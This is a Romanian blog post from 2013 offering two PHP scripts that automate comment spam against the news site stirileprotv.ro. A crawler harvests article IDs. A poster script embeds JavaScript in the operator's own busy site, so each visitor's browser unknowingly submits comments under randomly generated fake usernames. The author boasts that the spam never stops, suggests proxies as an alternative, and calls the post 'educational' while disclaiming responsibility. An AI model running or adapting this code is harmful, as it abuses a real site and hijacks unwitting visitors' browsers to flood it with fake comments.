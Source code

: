 ```yaml
---
id: 97
title: 'StrileProTV.ro &#8211; comment spammer [PHP]'
date: 2013-02-05T22:31:24+00:00
author: Silviu Stroe
layout: post
guid: http://silviu-s.com/?p=97
permalink: /strileprotv-ro-comment-spammer-php/
dpsp_networks_shares:
  - 'a:0:{}'
tags:
  - comment
  - php
  - script
  - spammer
  - stirileprotv.ro
---
```

Am scris in PHP (cu picioarele) un mic script care preia articolele de pe un numar prestabilit (de utilizator) de pagini de pe site-ul de stiri mentionat si posteaza comentarii la ce vreti voi (le setati din script, bineinteles).
  
Scriptul ar trebui inclus in index sau pe o pagina cu multe vizite ale unui site de-al vostru, pentru ca am ales sa folosesc JavaScript pentru a &#8220;posta&#8221; comentariile, dar puteti modifica si in loc de javascript sa folositi cURL si proxy-uri.
  
Crawler.php

<pre class="brush: php; title: ; notranslate" title="">&lt;?php 
 // Original PHP code by Chirp Internet: www.chirp.com.au 
  // Please acknowledge use of this code by including this header. 
  for($i=1;$i&lt;=500;$i++) //$i-ul merge pana la cate pagini doriti sa faceti crawling.
  { 
  $url = "http://m.stirileprotv.ro/lbin/mobile/index.php?section_id=1&page=$i"; 
  $input = get_data($url) or die("Could not access file: $url"); 
  $regexp = "&lt;a\s[^&gt;]*href=(\"??)([^\" &gt;]*?)\\1[^&gt;]*&gt;(.*)&lt;\/a&gt;"; 
  if(preg_match_all("/$regexp/siU", $input, $matches)) { 
      $link = $matches[2]; 
      for($i=1;$i&lt;=28;$i++)  
      if (strlen(strstr($link[$i],'article_id='))&gt;0) {  
$ok = str_replace('index.php?article_id=','',$link[$i]);  
$file = 'articole.txt'; 
$current = file_get_contents($file); 
$current .= "$ok\n"; 
file_put_contents($file, $current); 
} 
} 
} 
function get_data($url) 
{ 
$ch = curl_init(); 
$timeout = 5; 
curl_setopt($ch,CURLOPT_URL,$url); 
curl_setopt($ch,CURLOPT_RETURNTRANSFER,1); 
curl_setopt($ch,CURLOPT_CONNECTTIMEOUT,$timeout); 
$data = curl_exec($ch); 
curl_close($ch); 
return $data; 
} 
?&gt;
</pre>

Poster.php

<pre class="brush: php; title: ; notranslate" title="">&lt;?php 
ERROR_REPORTING(0); 

if ( ($fh = fopen('articole.txt', 'r')) !== false) 
{ 
   $nrart = implode(" ", (fgetcsv($fh, 1000, " ")) ); 
} 
fclose($fh); 
$num = array('mihai','gabi','andrei','ana','alex','daiana','alberto','iulian','gabi','stefan','monica','george'); 
$rand=rand(0,11); 
$random=rand(10,301); 
$numek=$num[$rand]; 
$mesaj=array('test1','comm2','comentariu 3','comentariu 4'); 
$rndmsg=rand(0,3); 
$postare=$mesaj[$rndmsg]; 
$postare=str_replace(' ','%20',$postare); 
$linke = "http://stirileprotv.ro/lbin/ajax/comment_save.php?username=$numek$random&article_id=$nrart&txt=$postare"; 
$f = 'articole.txt'; 
function read_and_delete_first_line($filename) { 
  $file = file($filename); 
  $output = $file[0]; 
  unset($file[0]); 
  file_put_contents($filename, $file); 
  return $output; 
} 
read_and_delete_first_line($f); 
$lines = file($f);  
$count = count($lines); 
if ($count&lt;10) 
{ 
echo '&lt;script src="//ajax.googleapis.com/ajax/libs/jquery/1.8.3/jquery.min.js"&gt; 
&lt;/script&gt; 
&lt;script&gt; 
$(document).ready(function(){ 
  $(window).load(function(){ 
    $.get("http://adresa_site/crawler.php");});}); 
&lt;/script&gt;'; 
}else{ 
echo '&lt;script src="//ajax.googleapis.com/ajax/libs/jquery/1.8.3/jquery.min.js"&gt; 
&lt;/script&gt; 
&lt;script&gt; 
$(document).ready(function(){ 
  $(window).load(function(){ 
    $.get("&lt;?php echo $linke; ?&gt;");});}); 
&lt;/script&gt;'; 
} 
?&gt;
</pre>

Spam-ul nu se va opri niciodata, deoarece am setat ca atunci cand sunt mai putin de 10 articole de spamat, sa se faca un request catre scriptul care face crawling.
  
Trebuie sa mai creati un fisier, articole.txt, iar la toate 3 fisierele sa setati chmod 777.

Acesta este doar un articol educational, nu sunt raspunzator pentru ce faceti voi cu acest script.
  
Enjoy! 😀